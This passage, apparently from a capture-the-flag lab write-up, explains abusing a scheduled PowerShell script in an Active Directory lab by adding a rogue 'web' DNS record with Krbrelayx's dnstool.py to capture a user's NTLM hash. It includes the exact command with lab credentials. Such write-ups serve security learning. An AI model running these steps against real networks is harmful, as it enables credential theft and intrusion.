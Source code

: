 We find this PowerShell script:

<figure><img src="../../.gitbook/assets/image (680).png" alt=""><figcaption></figcaption></figure>

> The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.

<figure><img src="../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

> in theory, if we can add a DNS record that starts with `web`, which points to a machine that we control, then we can potentially get the NTLM hash of the user, the script is running as!

`dnstool.py` is a script that comes with [Krbrelayx](https://github.com/dirkjanm/krbrelayx)&#x20;

before interacting with Kerberos, we have to make sure that our machine’s time is in sync with the target machine. Generally, we can use things like Nmap output, HTTP header etc to determine the target’s time and change our machine time with `date` command.

```
sudo ntpdate 10.129.44.184
```

<figure><img src="../../.gitbook/assets/image (682).png" alt=""><figcaption></figcaption></figure>

then we go and interract ->

```
python dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 -r webfelix.intelligence.htb -a add -d 10.10.14.166 10.129.44.184
```
